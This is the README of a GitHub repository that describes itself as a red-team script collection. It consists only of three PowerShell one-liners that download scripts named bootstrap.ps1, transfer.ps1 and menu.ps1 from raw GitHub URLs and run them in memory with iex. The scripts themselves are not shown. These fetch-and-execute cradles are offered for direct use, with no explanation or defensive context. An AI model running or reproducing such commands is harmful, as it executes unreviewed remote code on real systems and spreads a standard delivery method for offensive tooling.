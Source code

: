 # Eren Red Team
This repository contains the scripts that is created by Eren Red Team.

## bootstrap.ps1
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/bootstrap.ps1')
```

## transfer.ps1
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/transfer.ps1')
```

## menu.ps1
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/menu.ps1') 
```
